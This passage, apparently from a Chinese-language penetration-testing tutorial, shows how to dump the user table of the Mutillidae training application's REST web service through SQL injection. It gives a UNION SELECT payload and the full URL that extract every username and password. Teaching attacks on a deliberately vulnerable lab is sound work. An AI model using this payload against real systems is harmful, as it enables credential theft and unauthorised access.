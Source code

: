![](img/00175.jpeg)

1.  让我们看看还能做什么。使用**User Account Management**页面上给出的 SQL 注入字符串，让我们尝试转储整个用户表。

1.  在`username=`后附加以下值：

```
user'+union+select+concat('The+password+for+',username,'+is+',+password),mysignature+from+accounts+--+
```

新的 URL 应该是以下一个：

```
/mutillidae/webservices/rest/ws-user-account.php?username=user'+union+select+concat('The+password+for+',username,'+is+',+password),mysignature+from+accounts+--+
```

1.  在更改`username`参数后，单击**Go**按钮。您的请求应如下所示：

![](img/00176.jpeg)
